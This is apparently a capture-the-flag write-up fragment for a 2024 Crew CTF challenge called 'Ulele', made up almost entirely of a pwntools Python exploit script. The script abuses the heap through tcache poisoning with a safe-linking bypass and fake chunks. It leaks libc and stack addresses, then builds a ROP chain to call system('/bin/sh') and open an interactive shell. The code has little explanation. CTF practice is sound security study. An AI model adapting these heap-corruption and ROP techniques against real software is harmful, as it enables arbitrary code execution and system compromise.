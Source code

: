 ```py
for x in range(0xdf-20+21):
    add()

add(p64(0xdeadbeef)*9+flat([0x71,0x555555589-0x55555556c+(heap>>12),0])) # fakechunk to oob-write slot renew
for x in range(0x9):
    free(0x101+x)
for x in range(7):
    add()
free(0x101+8)
add(p64((heap>>12)^(0x5555555899c0-0x55555556c000+heap)))
add()
add(b'\0'*0x18+flat([0x3211,0x5555555899f0+8-0x55555556c000+heap,0x55555557add8-0x55555556c000+heap,0x5555555899f0+8-0x55555556c000+heap+0x10,0x5555555899d0-0x55555556c000+heap]))
show(0)
base = leak("Data: ")-0x1f2ce0-(0x7ffff7828000-0x7ffff7800000)
warn(hex(base))
free(2)
add(b'\0'*0x18+flat([0x3211,0x5555555899f0+8-0x55555556c000+heap,0x222200+base,0x5555555899f0+8-0x55555556c000+heap+0x10,0x5555555899d0-0x55555556c000+heap+0x10]))
show(0)
stack = leak("Data: ")



for x in range(8):
    free(0x120+x)
for x in range(7):
    add()
free(0x199)
free(0x19a)
free(0x127)
add(p64(((heap>>12)+1)^(0x555555571b60-0x55555556c000+heap)))
add("TBF") # 19a 0x555555571bc0
mask = (heap>>12)+( 0x555555571- 0x55555556c)
add(flat([1,2,3,4,5,6,0,0x71,mask ^ (0x555555571b70-0x55555556c000+heap),0x71,mask]))

add()
free(0x199)

add(flat([1,2,3,4,5,6,7,8,0,0x71,((heap>>12)+( 0x555555571- 0x55555556c)) ^ (stack-(0x7fffffffdbf8-0x7fffffffda78+0x8))]))
add()

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc.address = base
rop     = ROP(libc)
rdi     = rop.find_gadget(['pop rdi','ret'])[0]
ret     = rdi+1
sh_str  = libc.search(b"/bin/sh\0").__next__()
system  = libc.sym['system']
chain   = [ret]+[rdi,sh_str,system]
add(flat([1]+chain))

# gdb.attach(p)
p.interactive()

```


[0]: https://github.com/n132/CTF-Write-Up/tree/main/2024-Crew-CTF/Ulele